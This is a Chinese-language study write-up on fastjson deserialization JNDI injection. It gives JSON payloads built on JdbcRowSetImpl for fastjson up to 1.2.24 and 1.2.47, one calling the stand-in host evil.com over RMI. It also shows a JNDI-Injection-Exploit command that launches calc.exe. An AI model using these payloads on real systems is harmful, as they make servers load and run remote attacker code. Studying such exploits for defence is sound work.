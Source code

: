 
可以看到，在`connect` 方法中,如果 `DataSourceName!=nil`,那么就能调用一个`jndi`,如果`DataSourceName`可控,那么这里就是一个`jndi注入`.

于是就有了一个最经典的`payload`:

```json
{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://127.0.0.1:1099/Evil","autoCommit":true}
```

其中设置 `dataSourceName` 和`autoCommit` 字段就能够触发 `setDataSourceName`和`setAutoCommit`,其中,`autoCommit`的内容为`bool`类型,为`true` 或者 `false` 都是可以的.





# 正文

## fastjson 1.2.24<=

payload

```jsoon
{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://127.0.0.1:1099/Evil","autoCommit":true}
```

配合[JNDI-Injection-Exploit](https://github.com/welk1n/JNDI-Injection-Exploit),开启一个rmi服务:

```bash
 java -jar .\JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "cmd /c calc.exe" -A "192.168.3.144"
```

由于这边我的`java version` 为`1.8.0_332`,属于`Oracle JDK 8u191` 之后,所以在利用之前需要设置` System.setProperty("com.sun.jndi.ldap.object.trustURLCodebase", "true")`

> 关于限制，目前还有很多东西没有弄清楚，后面单独写一篇博客来学习和看到大佬们绕过高版本的 `JDK`  `JNDI 注入`限制

其中,`dataSourceName` 的值为使用上述脚本生成的地址:

![image-20220713203722218](https://particles.oss-cn-beijing.aliyuncs.com/img/image-20220713203722218.png)

运行,可以看到成功执行`cmd /c calc.exe`.

![image-20220713203509139](https://particles.oss-cn-beijing.aliyuncs.com/img/image-20220713203509139.png)



## fastjson 1.2.47<=

payload

```json
{"a": {"@type": "java.lang.Class","val": "com.sun.rowset.JdbcRowSetImpl"},"b": {"@type": "com.sun.rowset.JdbcRowSetImpl","dataSourceName": "rmi://evil.com:9999/Exploit","autoCommit": true}}
```


